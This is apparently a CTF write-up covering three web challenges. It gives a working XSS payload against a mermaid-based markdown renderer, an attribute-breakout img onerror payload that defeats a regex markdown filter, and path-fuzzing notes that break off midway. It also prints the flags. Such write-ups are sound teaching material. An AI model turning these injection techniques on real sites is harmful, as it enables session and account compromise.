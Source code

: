 ### Marcozuckerbergo

- It should be easy to notice that the website uses mermaid library
- Try to search some XSS PoC for mermaid on website
- Then I got this https://github.com/benweet/stackedit/issues/1457
- So the payload will be `http://marcozuckerbergo-01.play.midnightsunctf.se:3002/markdown?input=graph%20LR%0aid1["<iframe%20src=javascript:alert(%271%27)></iframe>"]`
- And the flag is `midnight{1_gu3zz_7rust1ng_l1bs_d1dnt_w0rk_3ither:(}`

### Marcodowno

- This challenge filter and replace our input:


```javascript=
function markdown(text){
  text = text.replace(/[<]/g, '')
  .replace(/----/g,'<hr>')
  .replace(/> ?([^\n]+)/g, '<blockquote>$1</blockquote>')
  .replace(/\*\*([^*]+)\*\*/g, '<b>$1</b>')
  .replace(/__([^_]+)__/g, '<b>$1</b>')
  .replace(/\*([^\s][^*]+)\*/g, '<i>$1</i>')
  .replace(/\* ([^*]+)/g, '<li>$1</li>')
  .replace(/##### ([^#\n]+)/g, '<h5>$1</h5>')
  .replace(/#### ([^#\n]+)/g, '<h4>$1</h4>')
  .replace(/### ([^#\n]+)/g, '<h3>$1</h3>')
  .replace(/## ([^#\n]+)/g, '<h2>$1</h2>')
  .replace(/# ([^#\n]+)/g, '<h1>$1</h1>')
  .replace(/(?<!\()(https?:\/\/[a-zA-Z0-9./?#-]+)/g, '<a href="$1">$1</a>')
  .replace(/!\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#]+)\)/g, '<img src="$2" alt="$1"/>')
  .replace(/(?<!!)\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#-]+)\)/g, '<a href="$2">$1</a>')
  .replace(/`([^`]+)`/g, '<code>$1</code>')
  .replace(/```([^`]+)```/g, '<code>$1</code>')
  .replace(/\n/g, "<br>");
  return text;
}

window.onload=function(){
  $("#markdown").text(input);
  $("#rendered").html(markdown(input));
}

```
- Our goal is to pop `alert(1)` on chrome environment.
- We can close double quote of `<img>`'s `alt` attribute.
- Payload:
    - `![ " onerror=alert(1) ](https://kaibrotw)`
- `midnight{wh0_n33ds_libs_wh3n_U_g0t_reg3x?}`

### Bigspin

- This challenge give us four link: `/admin/`, `/uberadmin/`, `/user/`, `/pleb/`
	- `/admin/` => 404
	- `/uberadmin/` => 403
	- `/user/` => 403
	- `/pleb/` => 200
- The content of `/pleb/` is:
	- ![](https://i.imgur.com/aivIgPE.png)
	- same as `example.com`
- Fuzzing it!
	- `/pleb./` => 200
	- `/ple%62/` => 200
	- `/pleb` => 404
	- `/pleb:` => 500
